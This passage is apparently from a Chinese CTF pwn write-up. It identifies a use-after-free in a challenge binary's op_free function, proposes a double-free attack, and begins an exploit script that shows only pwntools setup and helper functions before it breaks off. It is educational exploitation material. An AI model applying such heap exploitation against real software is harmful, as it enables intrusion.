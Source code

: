 在op\_free函数中观察到很明显的UAF漏洞

```plain
void op_free()
{
  __int64 index; // [rsp+8h] [rbp-8h]

  puts("Index?");
  index = get_index();
  free(*((void **)&chonks + index));
}
```

和上一题的打法相似，依旧是围绕double free做文章

##### exp：

```plain
# encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64

context.os = 'linux'
context.arch = 'amd64'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('127.0.0.1',8000)
else:
    p = process(name)

libcso = './libc.so.6'
libc = ELF(libcso)
elf = ELF(name)


s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

add_idx = 1
free_idx = 2
```